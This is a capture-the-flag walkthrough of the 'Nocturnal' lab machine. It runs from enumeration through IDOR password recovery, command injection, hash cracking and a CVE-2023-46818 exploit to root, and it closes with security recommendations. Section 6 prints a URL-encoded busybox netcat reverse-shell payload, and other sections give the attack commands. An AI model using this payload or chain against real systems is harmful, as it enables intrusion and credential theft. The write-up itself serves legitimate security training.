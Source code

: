 ![](images/image0.png)

# Nocturnal Web Exploitation & Privilege Escalation Walkthrough

This professional report outlines the full exploitation process for the **Nocturnal** machine, including enumeration, account discovery, exploitation through insecure file handling, privilege escalation, and local service exploitation.

---

## 1. Initial Reconnaissance

We began with a full Nmap scan to discover open services and gather version information for deeper analysis.

```bash
nmap -p- -Pn 10.129.6.254 -v -T5 --min-rate 1000 --max-rtt-timeout 1000ms --max-retries 5 -oN nmap_ports.txt && sleep 5 && nmap -Pn 10.129.6.254 -sC -sV -v -oN nmap_sVsC.txt && sleep 5 && nmap -T5 -Pn 10.129.6.254 -v --script vuln -oN nmap_vuln.txt
```

![](images/image12.png)

The scan identified an **HTTP web service** running on port 80 — our primary attack surface.

---

## 2. Web Enumeration

We ran directory fuzzing using `ffuf` to identify hidden endpoints and scripts:

```bash
ffuf -w /opt/useful/seclists/Discovery/Web-Content/raft-medium-directories.txt:FUZZ -u http://nocturnal.htb/FUZZ -e .php -s
```

![](images/image11.png)

The enumeration revealed key PHP files and a login form at `/login.php`.  
We proceeded to create a user account and access the dashboard.

![](images/image19.png)

---

## 3. File Upload Vulnerability Discovery

After logging in, we noticed the application allowed **PDF uploads**.  
The files were served based on the **username** parameter, hinting at insecure file access logic.

![](images/image8.png)
![](images/image6.png)

The parameter manipulation revealed potential for **Insecure Direct Object Reference (IDOR)** exploitation.

---

## 4. Enumerating Usernames via FFUF

We performed a fuzzing attack against the `view.php` endpoint to discover valid usernames:

```bash
ffuf -w /opt/useful/seclists/Usernames/Names/names.txt:FUZZ -u 'http://nocturnal.htb/view.php?username=FUZZ&file=file.pdf' -b "PHPSESSID=2evph3oilal3a2obmkdpd12qsn" -fs 2985
```

![](images/image9.png)

Three usernames were discovered, and `amanda` stood out as an administrator.

To confirm access, we fetched Amanda’s PDF file directly:

```bash
curl --cookie "PHPSESSID=2evph3oilal3a2obmkdpd12qsn" 'http://nocturnal.htb/view.php?username=amanda&file=file.pdf'
```

![](images/image7.png)

After downloading and reviewing the document, we recovered **Amanda’s password**.

![](images/image20.png)

---

## 5. Privilege Abuse via Admin Interface

Logging in as **Amanda**, we gained access to an admin panel.

![](images/image5.png)

The panel included a **backup creation feature**, suggesting command execution on the backend.  
We intercepted the request using **Burp Suite** and attempted **command injection**.

![](images/image3.png)

We observed execution feedback confirming code execution.

---

## 6. Command Injection Exploitation

Inspecting the `admin.php` script revealed a partial sanitization mechanism that could be bypassed.

![](images/image25.png)

We crafted a working payload leveraging **BusyBox netcat** for a reverse shell:

```
password=arHkG7HAI68X8s1J%0Abusybox%09nc%0910.10.15.30%094444%09-e%09%2Fbin%2Fbash</dev/null%09&backup=
```

Upon submission, the reverse shell successfully connected back to our listener.

![](images/image2.png)

---

## 7. Local Enumeration & Database Credential Extraction

Inside the compromised host, we found a SQLite database at `/var/www/database/nocturnal.db`:

![](images/image15.png)

Extracting its contents revealed stored user credentials.

![](images/image1.png)

The passwords were hashed using **MD5**, as confirmed by the source code.

![](images/image18.png)

We cracked the hashes using **Hashcat**:

```bash
hashcat -m 0 -a 0 hash rockyou.txt
```

![](images/image14.png)

Cracked credentials corresponded to user **tobias**, who had a home directory — our next target.

---

## 8. User Escalation

We switched to Tobias’s account and retrieved the **user flag** from his desktop.

![](images/image23.png)

During further enumeration, we discovered a local service running on port **8080**.

![](images/image13.png)

To access it, we used SSH port forwarding:

```bash
ssh -L 8888:127.0.0.1:8080 tobias@nocturnal.htb
```

For dynamic tunneling and proxying, we also executed:

```bash
ssh -D 9050 tobias@10.129.232.23
```

![](images/image21.png)

This revealed a new **web login interface** on `localhost:8888`.

![](images/image16.png)

---

## 9. Internal Web Exploitation — CVE-2023-46818

After several unsuccessful login attempts, we reused Tobias’s credentials and gained access.  
Checking the version banner revealed a **vulnerable internal application** affected by **CVE-2023-46818**.

![](images/image4.png)

Reference:  
🔗 [https://github.com/ajdumanhug/CVE-2023-46818](https://github.com/ajdumanhug/CVE-2023-46818)

We used the public exploit to gain remote command execution:

```bash
python3 CVE-2023-46818.py http://localhost:8888 admin slowmotionapocalypse
```

![](images/image10.png)

The exploit yielded a **root shell**, and we retrieved the **root flag**.

![](images/image24.png)

---

## 10. Conclusion

This assessment demonstrates how weak authentication, insecure file access, and unpatched software lead to a complete system compromise.

### Key Findings:
- Insecure PDF access logic (IDOR vulnerability).  
- Admin command injection vulnerability.  
- Exposed local service vulnerable to CVE-2023-46818.  
- Reused credentials and weak password policy.

### Security Recommendations:
- Enforce strict user input validation and sanitize all query parameters.  
- Implement access control checks for file access endpoints.  
- Regularly patch web applications to mitigate known CVEs.  
- Avoid password reuse and adopt stronger password policies.  
- Limit internal service exposure and implement network segmentation.  
- Conduct regular penetration testing and code reviews.

---
